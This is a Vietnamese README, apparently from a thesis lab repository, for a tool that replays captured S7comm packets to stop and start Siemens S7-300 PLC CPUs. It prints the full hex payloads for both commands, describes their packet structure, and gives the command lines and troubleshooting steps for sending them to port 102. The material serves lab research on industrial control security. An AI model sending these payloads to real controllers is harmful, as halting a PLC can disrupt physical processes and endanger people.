





# 4.3 Start/Stop PLC (Replay Attack)

Đây là kiểu **replay attack** điển hình nhắm vào PLC: tái sử dụng các gói S7comm đã bắt được khi TIA Portal thực hiện lệnh **Start CPU** / **Stop CPU** trên S7-300, mà không cần xác thực bổ sung trên kênh S7comm cổ điển.

Công cụ trong thư mục này gửi lại đúng payload đã capture, sau khi thiết lập phiên TCP → COTP → S7 Setup Communication (giống luồng trong `attacks/reconnaissance/SiemensScan.py`).

## Payload đã capture

| Lệnh | Function code | Payload (hex) |
|------|---------------|---------------|
| **Start CPU** | `0x28` (PLC Control / PI-Service `P_PROGRAM`) | `0300002502f0803201000005000014000028000000000000fd000009505f50524f4752414d` |
| **Stop CPU** | `0x29` (PLC Stop) | `0300002102f0803201000006000010000029000000000009505f50524f4752414d` |

Chuỗi PI-Service ở cuối gói: `P_PROGRAM` (`50 5f 50 52 4f 47 52 41 4d`, length `0x09`).

### Cấu trúc gói (tóm tắt)

```text
TPKT (4) + COTP DT (3) + S7 Header (10) + Parameter + (tuỳ lệnh) data PI-Service
```

- **Start**: `param_length = 5`, function `0x28`, khối tham số chứa `0xfd` (trạng thái RUN) + tên `P_PROGRAM`.
- **Stop**: `param_length = 6`, function `0x29`, tham số ngắn hơn, cùng PI-Service `P_PROGRAM`.

Tham chiếu mã chức năng: `docs/Report/S7_constants.txt` (`0x28` PLC Control, `0x29` PLC Stop).

## Sử dụng

Yêu cầu: Python 3. PLC/simulator lắng nghe **TCP 102** (OpenPLC Runtime với S7 server, PLCSIM, hoặc S7-300 trên lab).

**OpenPLC trên Windows:** cổng 102 phải thuộc tiến trình `plc_main`, không phải `s7oiehsx64` (Siemens). Nếu sai, script sẽ không nhận COTP Confirm.

```powershell
netstat -ano | findstr :102
# Phải thấy plc_main; nếu là s7oiehsx64 (Admin): net stop s7oiehsx64 rồi khởi động lại OpenPLC
```

```bash
cd attacks/start_stop_plc

# Kiểm tra kết nối S7 (COTP + Setup) — chạy bước này trước khi stop/start
python start_stop_plc.py 127.0.0.1 --check -v

# Dừng / khởi động CPU (replay payload)
python start_stop_plc.py 127.0.0.1 stop -v
python start_stop_plc.py 127.0.0.1 start -v

# Xác nhận trạng thái CPU thật qua snap7 (cần uv sync ở thư mục gốc thesis)
cd ../..
uv sync
uv run python attacks/start_stop_plc/start_stop_plc.py 127.0.0.1 stop --verify -v
```

Từ thư mục gốc repo (có `pyproject.toml`):

```bash
uv run python attacks/start_stop_plc/start_stop_plc.py 127.0.0.1 stop --verify
```

Mã nguồn payload: `payloads.py`. Script chính: `start_stop_plc.py`.

## Luồng tấn công



## Lưu ý lab

- Chỉ dùng trên môi trường mô phỏng / PLC thử nghiệm do bạn sở hữu.
- Một số runtime (OpenPLC, PLCSIM) có thể không phản hồi giống PLC Siemens thật; khi đó vẫn quan sát được gói replay trên Wireshark.
- S7-1200/1500 dùng **S7comm-plus** với cơ chế chống replay (session ID); payload này nhắm **S7comm cổ điển / S7-300** như trong tài liệu mục 4.3.

### Lỗi `COTP connection failed`

| Triệu chứng | Nguyên nhân | Cách xử lý |
|-------------|-------------|------------|
| Phản hồi COTP **rỗng** | Cổng 102 là `s7oiehsx64` (Siemens), không phải OpenPLC | `net stop s7oiehsx64` (Admin), khởi động lại OpenPLC |
| `Connection refused` | OpenPLC chưa chạy hoặc S7 server tắt | Bật Runtime, map port 102 (Docker: `-p 102:102`) |
| `S7 Ack OK` nhưng PLC vẫn RUN | Chưa kiểm tra trạng thái thật | Thêm `--verify`; hoặc xem OpenPLC Web UI |

Script in tên tiến trình đang listen port 102 trên Windows khi COTP thất bại.

## Tệp trong thư mục

| Tệp | Mô tả |
|-----|--------|
| `payloads.py` | Hằng số hex Start/Stop + gói COTP/S7 setup |
| `start_stop_plc.py` | CLI replay attack |
| `README.md` | Tài liệu mục 4.3 |






PLC Start



